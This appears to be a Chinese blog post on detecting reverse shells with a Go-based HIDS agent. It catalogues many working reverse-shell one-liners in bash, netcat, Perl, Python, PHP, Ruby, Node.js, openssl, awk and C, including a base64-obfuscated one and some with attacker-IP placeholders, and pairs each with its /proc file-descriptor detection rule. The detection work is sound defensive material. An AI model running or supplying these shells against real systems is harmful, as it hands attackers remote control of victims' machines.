




介绍
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1 #TCP
Listener:
nc -nvlp 1234

目标机执行后的结果如下：
创建了一个常住进程“bash -i”， 它的得0和1文件描述符都指向socket。
匹配规则：bash进程的0，和1文件描述符指向socket
sh -i >& /dev/udp/127.0.0.1/1234 0>&1 #UDP
Listener:
nc -u -lvp 1234

目标机执行后的结果如下：
创建了一个常住进程“sh -i”， 它的得0和1文件描述符都指向socket。
匹配规则：bash进程的0，和1文件描述符指向socket
0<&196;exec 196<>/dev/tcp/127.0.0.1/1234; sh <&196 >&196 2>&196

目标机执行后的结果如下：
创建了sh进程，0和1描述符都指向了socket。
匹配规则：sh的0，和1文件描述符指向socket
exec 5<>/dev/tcp/127.0.0.1/1234; while read line 0<&5; do $line 2>&5 >&5; done

目标机执行后的结果如下：
匹配规则：某一个bash进程的0 文件描述符指向socket
nohup bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'
base64搞一下命令
echo "nohup bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" | base64 -w0
echo bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYxJwo= | base64 -d | bash 2>/dev/null

目标机执行后的结果如下：
创建了bash进程，0和1描述符都指向了socket。
匹配规则：bash的0，和1文件描述符指向socket
telnet 127.0.0.1 1234 | /bin/sh #Blind
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 127.0.0.1 1234 >/tmp/f
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | telnet 127.0.0.1 1234 1>/tmp/bkpipe


目标机执行后的结果如下：
创建了sh进程，0和1描述符都指向了pipe。 匹配规则：sh进程的0，和1文件描述符指向pipe
telnet 127.0.0.1 1234 | /bin/bash | telnet 127.0.0.1 12345

目标机执行后的结果如下：
创建了bash进程，0和1描述符都指向了pipe。 匹配规则：bash进程的0，和1文件描述符指向pipe
perl -e 'use Socket;$i="127.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[127.0.0.1]:[1234]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
export RHOST="127.0.0.1";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
php -r '$sock=fsockopen("127.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
目标机执行后的结果如下：
创建了sh进程，0和1描述符都指向了socket。
匹配规则：sh的0，和1文件描述符指向socket
php -r 'exec("/bin/bash -i >& /dev/tcp/127.0.0.1/1234")'
目标机执行后的结果如下：
创建了一个常住进程“bash -i”， 它的得0和1文件描述符都指向socket。
匹配规则：bash进程的0，和1文件描述符指向socket
ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
目标机执行后的结果如下：
创建了sh进程，0和1描述符都指向了socket。
匹配规则：sh的0，和1文件描述符指向socket
nc -e /bin/sh 127.0.0.1 1234
如果nc 不支持 -e
nc 127.0.0.1 1234 | /bin/sh #Blind
nc <ATTACKER-IP> <PORT1>| /bin/bash | nc <ATTACKER-IP> <PORT2>
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | nc 127.0.0.1 1234 1>/tmp/bkpipe
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f


目标机执行后的结果如下：
创建了sh进程，0和1描述符都指向了pipe，这两个pipe关联到文件和nc上。
匹配规则：sh进程的0，和1文件描述符指向pipe
lua -e "require('socket');require('os');t=socket.tcp();t:connect('127.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
目标机执行后的结果如下：
创建了sh进程，0和1描述符都指向了socket。
匹配规则：sh的0，和1文件描述符指向socket
Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
目标机执行后的结果如下：
匹配规则：某一个bash进程的0 文件描述符指向socket
Golang
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1234");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

目标机执行后的结果如下：
创建了sh进程，0和1描述符都指向了pipe。 匹配规则：sh进程的0，和1文件描述符指向pipe
Nodejs
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(1234, "127.0.0.1", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application form crashing
})();

目标机执行后的结果如下： 创建了sh进程，0和1描述符都指向了socket。
匹配规则：sh的0，和1文件描述符指向socket
require('child_process').exec('nc -e /bin/sh 127.0.0.1 1234')
or
-var x = global.process.mainModule.require
-x('child_process').exec('nc 127.0.0.1 1234 -e /bin/bash')
目标机执行后的结果如下：
创建了sh进程，0和1描述符都指向了pipe，这两个pipe关联到nc进程上。nc创建了socket外联。
匹配规则：sh进程的0，和1文件描述符指向pipe
用openssl 反弹shell
攻击者
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
靶机
openssl s_client -quiet -connect 127.0.0.1:1234|/bin/bash|openssl s_client -quiet -connect 127.0.0.1:12345
目标机执行后的结果如下：
创建了bash进程，0和1描述符都指向了pipe。 匹配规则：bash进程的0，和1文件描述符指向pipe
awk 'BEGIN {s = "/inet/tcp/0/127.0.0.1/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
无明显文件句柄特征
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
int main(void){
int port = 1234;
struct sockaddr_in revsockaddr;
int sockt = socket(AF_INET, SOCK_STREAM, 0);
revsockaddr.sin_family = AF_INET;
revsockaddr.sin_port = htons(port);
revsockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");
connect(sockt, (struct sockaddr *) &revsockaddr,
sizeof(revsockaddr));
dup2(sockt, 0);
dup2(sockt, 1);
dup2(sockt, 2);
char * const argv[] = {"/bin/sh", NULL};
execve("/bin/sh", argv, NULL);
return 0;
}

目标机执行后的结果如下：
创建了一个常住进程“sh ”， 它的得0和1文件描述符都指向socket。
匹配规则：sh进程的0，和1文件描述符指向socket
归纳起来，shell环境的进程如果0和1（或某一个）文件描述符都关联到socket或者pipe，就认为它是反弹shell。
shell 环境包含： sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash
HIDS-Agent 开发
使用 cgroups + etcd + kafka 开发而成的hids的架构，agent 部分使用go 开发而成， 会把采集的数据写入到kafka里面，由后端的规则引擎（go开发而成）消费，配置部分以及agent存活使用etcd。关于agent 使用cgroups限制资源以及使用etcd做配置管理agent存活等已经在前文介绍了一下。下面介绍一下agent分析反弹shell的部分。
代码例子： 主要是分析 Linux /proc的内容
import (
"fmt"
"io/ioutil"
"os"
"strconv"
"strings"
)
func GetProcessList() (resultData []map[string]string) {
var dirs []string
var err error
dirs, err = dirsUnder("/proc")
if err != nil || len(dirs) == 0 {
return
}
for _, v := range dirs {
pid, err := strconv.Atoi(v)
if err != nil {
continue
}
statusInfo := getStatus(pid)
ppid,_ := strconv.Atoi(statusInfo["PPid"])
pstatusInfo := getStatus(ppid)
command := getcmdline(pid)
fd := getfd(pid)
m := make(map[string]string)
m["pid"] = v
m["ppid"] = statusInfo["PPid"]
m["name"] = statusInfo["Name"]
if len(strings.Fields(statusInfo["Uid"])) == 4 {
m["uid"] = strings.Fields(statusInfo["Uid"])[0]
m["euid"] = strings.Fields(statusInfo["Uid"])[1]
m["suid"] = strings.Fields(statusInfo["Uid"])[2]
m["fsuid"] =strings.Fields(statusInfo["Uid"])[3]
}
if len(strings.Fields(statusInfo["Gid"])) ==4 {
m["gid"] = strings.Fields(statusInfo["Gid"])[0]
m["egid"] = strings.Fields(statusInfo["Gid"])[1]
m["sgid"] = strings.Fields(statusInfo["Gid"])[2]
m["fsgid"] =strings.Fields(statusInfo["Gid"])[3]
}
if len(strings.Fields(pstatusInfo["Uid"])) ==4 {
m["puid"] = strings.Fields(pstatusInfo["Uid"])[0]
m["peuid"] = strings.Fields(pstatusInfo["Uid"])[1]
m["psuid"] = strings.Fields(pstatusInfo["Uid"])[2]
m["pfsuid"] =strings.Fields(pstatusInfo["Uid"])[3]
}
if len(strings.Fields(pstatusInfo["Gid"])) ==4 {
m["pgid"] = strings.Fields(pstatusInfo["Gid"])[0]
m["pegid"] = strings.Fields(pstatusInfo["Gid"])[1]
m["psgid"] = strings.Fields(pstatusInfo["Gid"])[2]
m["pfsgid"] =strings.Fields(pstatusInfo["Gid"])[3]
}
m["fd"] = fd
m["command"] = command
resultData = append(resultData, m)
}
return
}
func getcmdline(pid int) string {
cmdlineFile := fmt.Sprintf("/proc/%d/cmdline", pid)
cmdlineBytes, e := ioutil.ReadFile(cmdlineFile)
if e != nil {
return ""
}
cmdlineBytesLen := len(cmdlineBytes)
if cmdlineBytesLen == 0 {
return ""
}
for i, v := range cmdlineBytes {
if v == 0 {
cmdlineBytes[i] = 0x20
}
}
return strings.TrimSpace(string(cmdlineBytes))
}
func getStatus(pid int) (status map[string]string) {
status = make(map[string]string)
statusFile := fmt.Sprintf("/proc/%d/status", pid)
var content []byte
var err error
content, err = ioutil.ReadFile(statusFile)
if err != nil {
return
}
for _, line := range strings.Split(string(content), "\n") {
if strings.Contains(line, ":") {
kv := strings.SplitN(line, ":", 2)
status[kv[0]] = strings.TrimSpace(kv[1])
}
}
//fmt.Println(status)
return
}
func dirsUnder(dirPath string) ([]string, error) {
fs, err := ioutil.ReadDir(dirPath)
if err != nil {
return []string{}, err
}
sz := len(fs)
if sz == 0 {
return []string{}, nil
}
ret := make([]string, 0, sz)
for i := 0; i < sz; i++ {
if fs[i].IsDir() {
name := fs[i].Name()
if name != "." && name != ".." {
ret = append(ret, name)
}
}
}
return ret, nil
}
func getfd(pid int) string {
fdDir := fmt.Sprintf("/proc/%d/fd", pid)
dirs, err := dirsFile(fdDir)
if err != nil || len(dirs) == 0 {
return ""
}
m := []string{}
for _, v := range dirs {
fileInfo, err := os.Readlink(v)
if err != nil {
continue
}
countSplit := strings.Split(v, "/")
m=append(m,strings.Join(countSplit[3:], "/")+"---"+fileInfo)
}
return strings.Join(m, " ")
}
func dirsFile(dirPath string) ([]string, error) {
fs, err := ioutil.ReadDir(dirPath)
if err != nil {
return []string{}, err
}
sz := len(fs)
if sz == 0 {
return []string{}, nil
}
ret := make([]string, 0, sz)
for i := 0; i < sz; i++ {
if !fs[i].IsDir() {
name := dirPath + "/" + fs[i].Name()
ret = append(ret, name)
}
}
return ret, nil
}
抓取的数据如下
{
"command":"bash -i",
"egid":"0",
"euid":"0",
"fd":"fd/0---socket:[27215273] fd/1---socket:[27215273] fd/2---socket:[27215273] fd/255---/dev/tty",
"fsgid":"0",
"fsuid":"0",
"gid":"0",
"name":"bash",
"pegid":"0",
"peuid":"0",
"pfsgid":"0",
"pfsuid":"0",
"pgid":"0",
"pid":"23923",
"ppid":"23592",
"psgid":"0",
"psuid":"0",
"puid":"0",
"sgid":"0",
"suid":"0",
"uid":"0"
}
对应上面的规则，在server 端做流式分析，很多东西一目了然，不过， 百密总有一疏，绕过的方法大家自主了解，技术在对抗中升华。